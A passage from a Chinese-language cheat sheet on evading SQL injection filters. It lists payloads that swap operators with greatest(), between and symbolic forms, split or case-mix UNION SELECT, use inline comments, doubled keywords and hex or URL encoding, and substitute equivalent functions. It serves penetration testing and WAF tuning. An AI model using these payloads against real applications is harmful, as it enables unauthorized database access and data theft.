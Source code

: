 - 对于limit可以使用offset来绕过：
`select * from news limit 0,1`  # 等价于下面这条SQL语句
`select * from news limit 1 offset 0`

#### 5.比较符号（<>）绕过（过滤了<>：sqlmap盲注经常使用<>，使用between的脚本）：

使用greatest()、least()：（前者返回最大值，后者返回最小值）

　　同样是在使用盲注的时候，在使用二分查找的时候需要使用到比较操作符来进行查找。如果无法使用比较操作符，那么就需要使用到greatest来进行绕过了。

　　最常见的一个盲注的sql语句：
`select * from users where id=1 and ascii(substr(database(),0,1))>64`
　　此时如果比较操作符被过滤，上面的盲注语句则无法使用,那么就可以使用greatest来代替比较操作符了。greatest(n1,n2,n3,...)函数返回输入参数(n1,n2,n3,...)的最大值。
　　那么上面的这条sql语句可以使用greatest变为如下的子句:
`select * from users where id=1 and greatest(ascii(substr(database(),0,1)),64)=64`

使用between and：
`between a and b`：返回a，b之间的数据，不包含b。

#### 6.or and xor not绕过：
and=&&  or=||   xor=|   not=!
#### 7.绕过注释符号（#，--(后面跟一个空格））过滤：
id=1' union select 1,2,3||'1
　　最后的or '1闭合查询语句的最后的单引号，或者：
id=1' union select 1,2,'3
#### 8.=绕过：
　　使用like 、rlike 、regexp 或者 使用< 或者 >
#### 9.绕过union，select，where等：
（1）使用注释符绕过：
　　常用注释符：
`//`，`--` , `/**/`, `#`, `--+`, `-- -`,` ;`,`%00`,`--a`
　　用法：
`U/**/ NION /**/ SE/**/ LECT /**/user，pwd from user`
（2）使用大小写绕过：
`id=-1'UnIoN/**/SeLeCT`
（3）内联注释绕过：
`id=-1'/*!UnIoN*/ SeLeCT 1,2,concat(/*!table_name*/) FrOM /*information_schema*/.tables /*!WHERE *//*!TaBlE_ScHeMa*/ like database()#`
（4） 双关键字绕过（若删除掉第一个匹配的union就能绕过）：
`id=-1'UNIunionONSeLselectECT1,2,3–-`
#### 10.通用绕过（编码）：
　　如URLEncode编码，ASCII,HEX,unicode编码绕过：
`or 1=1`即`%6f%72%20%31%3d%31`，而`Test`也可以为`CHAR(101)+CHAR(97)+CHAR(115)+CHAR(116)`。
#### 11.等价函数绕过：

hex()、bin() ==> ascii()

sleep() ==>benchmark()

concat_ws()==>group_concat()

mid()、substr() ==> substring()
